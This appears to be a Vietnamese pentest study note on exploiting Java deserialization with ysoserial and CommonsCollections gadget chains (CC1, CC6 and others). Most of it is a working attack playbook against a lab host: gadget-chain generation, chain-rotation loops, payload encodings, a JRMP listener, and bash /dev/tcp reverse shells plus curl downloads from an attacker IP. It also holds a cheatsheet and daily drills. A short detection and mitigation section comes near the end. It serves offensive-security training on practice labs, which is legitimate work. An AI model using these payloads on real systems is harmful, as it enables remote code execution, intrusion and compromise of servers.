

> **Prerequisites**: [[04-java-deserialization-internals|04. Java Deserialization Internals]]
> **Objectives**:
> - Nắm anatomy của CommonsCollections1 chain từng bước một
> - Hiểu tại sao CC6 hoạt động trên nhiều JDK version nhất
> - Sử dụng ysoserial thành thạo: đúng chain, đúng encoding, đúng JDK
> - Xây quy trình thử gadget chains có hệ thống
>
---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - Java app deserialize user-controlled bytes qua `ObjectInputStream.readObject()`
> - Server có vulnerable version của gadget library trong classpath
> - Attacker có thể inject serialized bytes (cookie, POST body, header)
>
> [!note] JDK Version Matrix
> | Chain | JDK 6/7 | JDK 8 | JDK 11 | JDK 17+ |
> |-------|---------|-------|--------|---------|
> | CC1 | ✓ | ✓ (< 8u71) | ✗ | ✗ |
> | CC6 | ✓ | ✓ | ✓ | ✗ (modules) |
> | CC2 | ✓ | ✓ | ✓ (với flag) | ✗ |
> | CommonsBeanutils1 | ✓ | ✓ | ✓ | Limited |
> | URLDNS | ✓ | ✓ | ✓ | ✓ |
>
---

## Cơ chế tấn công

### CommonsCollections1 — Phân tích từng node

CC1 là gadget chain đầu tiên được public (AppSecCali 2015). Hiểu CC1 là hiểu toàn bộ triết lý của gadget chain.

**Các components trong CC1**:

```java
// SINK — nơi RCE xảy ra
// InvokerTransformer gọi method bằng Java Reflection
class InvokerTransformer implements Transformer {
    String iMethodName;   // tên method cần gọi
    Class[] iParamTypes;  // parameter types
    Object[] iArgs;       // arguments

    public Object transform(Object input) {
        // Gọi iMethodName trên input với iArgs
        Method method = input.getClass().getMethod(iMethodName, iParamTypes);
        return method.invoke(input, iArgs); // ← reflection-based RCE
    }
}
```

**Chain assembly (rút gọn)**:

```bash
AnnotationInvocationHandler  ← entry (readObject gọi invoke)
    ↓ (Proxy với InvocationHandler)
LazyMap.get()                ← pivot 1
    ↓ (gọi factory.transform)
ChainedTransformer.transform()  ← pivot 2 (chain nhiều transformers)
    ↓ (lần lượt gọi từng transformer)
ConstantTransformer → Runtime.class     ← step 1: push Runtime class
InvokerTransformer("getMethod", ...)    ← step 2: Runtime.getRuntime
InvokerTransformer("invoke", ...)       ← step 3: gọi getRuntime()
InvokerTransformer("exec", ...)         ← step 4: SINK: exec(command)
```

**Ysoserial source code (CC1 rút gọn)**:

```java
final String[] execArgs = new String[]{ command };

final Transformer[] transformers = new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod",
        new Class[]{ String.class, Class[].class },
        new Object[]{ "getRuntime", new Class[0] }),
    new InvokerTransformer("invoke",
        new Class[]{ Object.class, Object[].class },
        new Object[]{ null, new Object[0] }),
    new InvokerTransformer("exec",
        new Class[]{ String.class },
        execArgs),               // ← exec(command) ← RCE
    new ConstantTransformer(1),  // return value
};

final Transformer transformerChain = new ChainedTransformer(transformers);
```

### Tại sao CC6 là chain phổ biến nhất?

CC1 bị fix trên JDK >= 8u71 vì `AnnotationInvocationHandler.readObject()` thay đổi behavior. CC6 dùng entry gadget khác (`HashSet` → `HashMap.hash()`) không phụ thuộc vào JDK internals:

```yaml
HashSet.readObject()       ← entry: readObject gọi add
  ↓
HashMap.hash(key)          ← pivot: hash() gọi hashCode
  ↓
TiedMapEntry.hashCode()    ← pivot: hashCode gọi getValue
  ↓
LazyMap.get()              ← pivot: get gọi factory.transform
  ↓
ChainedTransformer.transform()  ← pivot: chạy transformer chain
  ↓
InvokerTransformer → exec()     ← sink: RCE
```

> [!tip] Rule of thumb
> Luôn thử CC6 trước vì nó work trên JDK 6, 7, 8, và 11. Thử CC2 nếu app có commons-collections **4.x** (CC6 cần 3.x). Chỉ thử CC1/CC3 nếu biết chắc JDK < 8u71.
>
---

## Quy trình tấn công

**Môi trường giả định**: Java web app tại `http://target.htb:8080`, cookie `session` chứa `rO0A...`.

**Bước 1 — Xác nhận deserialization và detect JDK version**

```bash
# Step 1a: URLDNS test — không cần gadget lib
java -jar ysoserial-all.jar URLDNS "http://$(hostname -I | awk '{print $1}').burpcollaborator.net" | base64 -w0 > urldns_payload.txt

curl -s http://target.htb:8080/ \
  -H "Cookie: session=$(cat urldns_payload.txt)"

# Nếu DNS callback → endpoint deserialize
# Step 1b: Detect JDK version từ response headers
curl -I http://target.htb:8080/ | grep -i "x-powered-by\|server\|jvm"
# Hoặc xem stack trace nếu app verbose
```

> **Expected output**: DNS callback xác nhận deserialization; version info từ headers.
>
**Bước 2 — Test gadget chains theo thứ tự ưu tiên**

```bash
# Thứ tự thử (safe OOB test trước khi dùng exec)
COLLAB="your.burpcollaborator.net"
CHAINS="CC6 CommonsCollections6 CommonsBeanutils1 CC2 CommonsCollections2 CC5"

for chain in $CHAINS; do
  echo "[*] Testing $chain..."
  java -jar ysoserial-all.jar $chain "curl http://$COLLAB/$chain" 2>/dev/null | base64 -w0 > /tmp/payload.txt

  curl -s http://target.htb:8080/ \
    -H "Cookie: session=$(cat /tmp/payload.txt)" \
    -o /dev/null -w "%{http_code}"

  echo " ← HTTP response for $chain"
  sleep 1
done
# Check Burp Collaborator → nếu callback từ /CC6 → CC6 works!
```

> **Expected output**: Burp Collaborator callback cho một trong các chains.
>
**Bước 3 — Confirm RCE với ping**

```bash
WORKING_CHAIN="CommonsCollections6"

# Ping OOB (không disruptive)
java -jar ysoserial-all.jar $WORKING_CHAIN \
  "ping -c 1 $(hostname -I | awk '{print $1}')" | base64 -w0 > payload.txt

# Start tcpdump để catch ping
sudo tcpdump -i tun0 icmp &

curl -s http://target.htb:8080/ \
  -H "Cookie: session=$(cat payload.txt)"

# Nếu ping received → RCE confirmed
```

> **Expected output**: `tcpdump` nhận ICMP packet từ target IP.
>
**Bước 4 — Reverse shell**

```bash
# Tạo reverse shell script
cat > /tmp/shell.sh << 'EOF'
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.5/4444 0>&1
EOF
chmod +x /tmp/shell.sh

# Step A: Upload shell script
java -jar ysoserial-all.jar $WORKING_CHAIN \
  "curl http://10.10.14.5:8080/shell.sh -o /tmp/shell.sh" | base64 -w0 > step_a.txt

# Start HTTP server để serve shell.sh
python3 -m http.server 8080 &

# Start listener
nc -lnvp 4444 &

# Execute step A
curl -s http://target.htb:8080/ -H "Cookie: session=$(cat step_a.txt)"
sleep 2

# Step B: Execute shell
java -jar ysoserial-all.jar $WORKING_CHAIN \
  "bash /tmp/shell.sh" | base64 -w0 > step_b.txt

curl -s http://target.htb:8080/ -H "Cookie: session=$(cat step_b.txt)"
```

> **Expected output**: Reverse shell kết nối vào nc listener.
>
---

## Biến thể & Bypass

### JDK 11 và module restrictions

JDK 11+ enforce module system — một số chains dùng internal JDK classes bị block:

```bash
# CC6 cần extra JVM flags trên JDK 11+
java --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
     --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
     -jar ysoserial-all.jar CommonsCollections4 'id' | base64 -w0

# Hoặc dùng CommonsBeanutils1 — ít phụ thuộc internal hơn
java -jar ysoserial-all.jar CommonsBeanutils1 'id' | base64 -w0
```

### Encoding variations

Server có thể nhận payload ở nhiều encoding:

```bash
# Raw binary (nếu Content-Type: application/x-java-serialized-object)
java -jar ysoserial-all.jar CC6 'id' > payload.bin
curl -s http://target.htb/ -X POST \
  -H "Content-Type: application/x-java-serialized-object" \
  --data-binary @payload.bin

# Base64 standard (với padding)
java -jar ysoserial-all.jar CC6 'id' | base64 | tr -d '\n'

# Base64 URL-safe (không có +/)
java -jar ysoserial-all.jar CC6 'id' | base64 | tr '+/' '-_' | tr -d '\n'

# URL encoded
java -jar ysoserial-all.jar CC6 'id' | base64 -w0 | python3 -c "import sys,urllib.parse; print(urllib.parse.quote(sys.stdin.read().strip()))"
```

### Chaining ysoserial với JRMP listener

Nếu endpoint chỉ nhận object không trực tiếp execute:

```bash
# Khởi JRMP listener
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 1099 \
  CommonsCollections6 "bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'"

# Gửi JRMPClient payload đến target (target sẽ connect về listener của mình)
java -jar ysoserial-all.jar JRMPClient 10.10.14.5:1099 | base64 -w0 > jrmp.txt
curl -s http://target.htb/ -H "Cookie: session=$(cat jrmp.txt)"
```

---

## Cây quyết định



---

## Command Cheatsheet

**ysoserial basic usage**

```bash
# List available payloads
java -jar ysoserial-all.jar 2>&1 | head -40

# Generate payload
java -jar ysoserial-all.jar CommonsCollections6 'id' | base64 -w0

# URLDNS (no lib needed)
java -jar ysoserial-all.jar URLDNS 'http://your-collab.burpcollaborator.net' | base64 -w0

# JDK 11+ with add-opens
java --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
     --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
     -jar ysoserial-all.jar CommonsCollections4 'id' | base64 -w0
```

**Inject vào các vectors phổ biến**

```bash
# Cookie
PAYLOAD=$(java -jar ysoserial-all.jar CC6 'id' | base64 -w0)
curl -s http://target/ -H "Cookie: session=$PAYLOAD"

# POST body (binary)
java -jar ysoserial-all.jar CC6 'id' > /tmp/p.bin
curl -s -X POST http://target/ \
  -H "Content-Type: application/x-java-serialized-object" \
  --data-binary @/tmp/p.bin

# ViewState (JSF)
PAYLOAD=$(java -jar ysoserial-all.jar CC6 'id' | base64 -w0)
curl -s -X POST http://target.htb/page.jsf \
  -d "javax.faces.ViewState=$PAYLOAD&..."
```

**Pipeline reverse shell**

```bash
LHOST="10.10.14.5"
LPORT="4444"
CMD="bash -c 'bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1'"

# Encode command để tránh special chars
B64CMD=$(echo -n "$CMD" | base64 -w0)
FULL_CMD="bash -c {echo,${B64CMD}}|{base64,-d}|bash"

java -jar ysoserial-all.jar CommonsCollections6 "$FULL_CMD" | base64 -w0 > shell_payload.txt
```

---

## Daily Drill

**Thời gian**: 15–20 phút/ngày trong 7 ngày.

**Drill 1 — Nhận biết Java serialized data**
Mục tiêu: nhìn vào hex dump hoặc base64 và nhận biết ngay.

```bash
# Decode và check magic bytes
echo "rO0ABXNyABFqYXZh..." | base64 -d | xxd | head -3
# Kết quả: 00000000: aced 0005 7372 ...
# Học thuộc: AC ED 00 05 = Java serialized
```

Luyện cho đến khi: nhận biết `rO0A` và `AC ED 00 05` ngay lập tức.

**Drill 2 — URLDNS quick test**
Mục tiêu: generate và gửi URLDNS payload trong dưới 60 giây.

```bash
java -jar ysoserial-all.jar URLDNS "http://test.$(date +%s).burpcollaborator.net" \
  | base64 -w0 | xclip  # copy to clipboard
# Paste vào Burp Repeater → Send → check Collaborator
```

Luyện cho đến khi: quy trình này thành phản xạ khi gặp Java app.

**Drill 3 — Gadget chain rotation**
Mục tiêu: thử 5 chains trong dưới 3 phút.

```bash
for chain in CC6 CommonsBeanutils1 CC2 Spring1 ROME; do
  java -jar ysoserial-all.jar $chain \
    "curl http://10.10.14.5/$chain" 2>/dev/null | base64 -w0 > /tmp/$chain.txt
  curl -s http://TARGET/ -H "Cookie: sess=$(cat /tmp/$chain.txt)" &
done
```

Luyện cho đến khi: viết loop này mà không cần nhìn.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Network**: Outbound DNS queries từ JVM process đến unknown domains — URLDNS test
> **Logs**: `ClassNotFoundException` cho unknown class names — attacker probe
> **Logs**: `InvalidClassException` — attacker đang thử sai version
> **JVM**: Unexpected process spawn: `Runtime.exec()` logs, process tree có `bash -i`
> **HTTP**: Cookie values bắt đầu `rO0A` — Java serialized object
>
> **SIEM rule**: JVM process spawn external process; unusual DNS từ application server
>
> [!note] Mitigation
> - Dùng **SerialKiller** hoặc **NotSoSerial** làm drop-in replacement cho ObjectInputStream — blacklist/whitelist class names
> - Patch gadget libraries lên version mới nhất (commons-collections 3.2.2+, 4.1+)
> - Implement `ObjectInputFilter` (JDK 9+): `ObjectInputFilter filter = ObjectInputFilter.Config.createFilter("java.base/*;!*")`
> - Avoid deserializing untrusted data — dùng JSON/Protobuf thay thế
> - Container-level: restrict JVM outbound network (block unknown DNS/HTTP từ JVM)
>
---

## Lab Thực hành

| Platform | Machine | Kỹ thuật |
|----------|---------|---------|
| HTB | **Arkham** (Retired) | JSF ViewState, HMAC bypass, ysoserial CC chain |
| HTB | **Monitors** (Retired) | Apache OFBiz XMLRPC, CC chains |
| HTB | **Time** (Retired) | Jackson JSON deserialization (không phải ysoserial nhưng liên quan) |
| PortSwigger | **Java deserialization labs** | CC chain với Burp Collaborator OOB confirm |

---

## Field Manual Entry

> [!abstract] ysoserial / CommonsCollections — Quick Reference
> **Detect**: Cookie bắt đầu `rO0A`; hex `AC ED 00 05`
> **Confirm**: `java -jar ysoserial-all.jar URLDNS 'http://collab' | base64 -w0` → inject → check DNS
> **Priority**: CC6 → CommonsBeanutils1 → CC2 → Spring1 → ROME
> **Generate**: `java -jar ysoserial-all.jar CC6 'id' | base64 -w0`
> **Reverse shell**: Base64-encode command để tránh special chars
> **JDK 11+**: Thêm `--add-opens` flags
> **Ref**: [[05-ysoserial-commons-collections|05. ysoserial & CommonsCollections]]